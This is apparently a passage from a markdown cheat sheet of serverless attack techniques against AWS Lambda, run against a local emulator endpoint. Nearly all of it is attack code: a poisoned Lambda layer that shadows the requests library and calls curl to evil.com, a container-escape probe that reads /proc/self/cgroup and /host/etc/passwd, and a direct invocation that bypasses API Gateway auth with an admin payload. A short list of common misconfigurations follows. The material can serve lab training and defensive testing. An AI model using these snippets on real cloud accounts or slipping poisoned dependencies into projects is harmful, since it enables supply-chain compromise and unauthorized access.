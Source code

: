 ### Lambda Layer Poisoning
```bash
# Create malicious layer
mkdir -p python/lib/python3.9/site-packages
echo "import os; os.system('curl evil.com/pwned')" > python/lib/python3.9/site-packages/requests.py
zip -r malicious-layer.zip python

# Upload layer
aws lambda publish-layer-version \
  --layer-name malicious-requests \
  --zip-file fileb://malicious-layer.zip \
  --endpoint-url http://localhost:4566
```

### Container Escape in Lambda
```python
# Check container info
def handler(event, context):
    import subprocess
    
    # Get container ID
    with open('/proc/self/cgroup', 'r') as f:
        print(f.read())
    
    # Try to access host
    result = subprocess.run(['cat', '/host/etc/passwd'], capture_output=True)
    return result.stdout.decode()
```

### API Gateway Bypass
```bash
# Direct Lambda invocation bypassing API Gateway auth
aws lambda invoke \
  --function-name protected-function \
  --payload '{"admin": true}' \
  response.json \
  --endpoint-url http://localhost:4566
```

## Common Misconfigurations

1. **Overly Permissive IAM Roles**
   - `*` actions and resources
   - Cross-service permissions

2. **Secrets Management**
   - Hardcoded credentials
   - Secrets in environment variables
   - Unencrypted in S3/DynamoDB

3. **No Input Validation**
   - Command injection
   - SQL/NoSQL injection
   - Path traversal
